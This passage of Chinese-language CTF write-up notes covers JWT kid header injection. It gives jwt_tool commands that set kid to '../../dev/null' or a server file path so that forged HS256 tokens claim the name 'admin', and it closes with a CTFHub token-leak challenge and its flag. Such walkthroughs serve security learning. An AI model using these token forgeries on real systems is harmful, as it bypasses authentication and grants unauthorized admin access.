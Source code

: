试了试改为 `/app/views/authentication/random.html.erb`、`./app/views/authentication/random.html.erb` 文件路径，没有成功。密码也爆不出。

```json
{
  "kid": "rsa_private",
  "alg": "HS256"
}
```

根据 [https://github.com/ticarpi/jwt\_tool/wiki/Known-Exploits-and-Attacks#kid-injection](https://github.com/ticarpi/jwt_tool/wiki/Known-Exploits-and-Attacks#kid-injection) 提示，用文件进行签名。

Header

```json
{
  "kid": "app/views/authentication/random.html.erb",
  "alg": "HS256"
}
```

Payload

```json
{
  "name": "admin"
}
```

参考 [Attacking JSON Web Tokens (JWTs)](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) 5. Use arbitrary files to verify 小节解决了问题，kid 设置为 `/dev/null`，这在 Linux 下可以绕过。

\-I 对当前声明进行注入或更新内容，-hc kid 设置现有 header 中 kid，-hv 设置其值为 "../../dev/null"，-pc 设置 payload name，-pv 设置 name 值为 "admin"

```bash
python .\jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I -I -hc kid -hv "../../dev/null" -pc name -pv "admin" -S hs256
python .\jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I -I -hc kid -hv "/dev/null" -S hs256
```

另一种方法是指明 Server 上文件，尝试过没有成功。

```bash
python .\jwt_tool.py eyJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoiZ2JiIn0.zd4XZLps44J5EHAxVFUGh8zgAHKPvyb8PALLAry2j8I -I -hc kid -hv "文件绝对路径或相对路径" -pc name -pv "admin" -S hs256 -p "文件内容"
```

### CTFHub

#### 敏感信息泄露

在 Cookies 中有存 token 值，解密拼接就得到 Flag `ctfhub{f51fc5a31c4c2c9c90c00585}`

```json
{
  "AG": "c4c2c9c90c00585}",
  "typ": "JWT",
  "alg": "HS256"
}
```
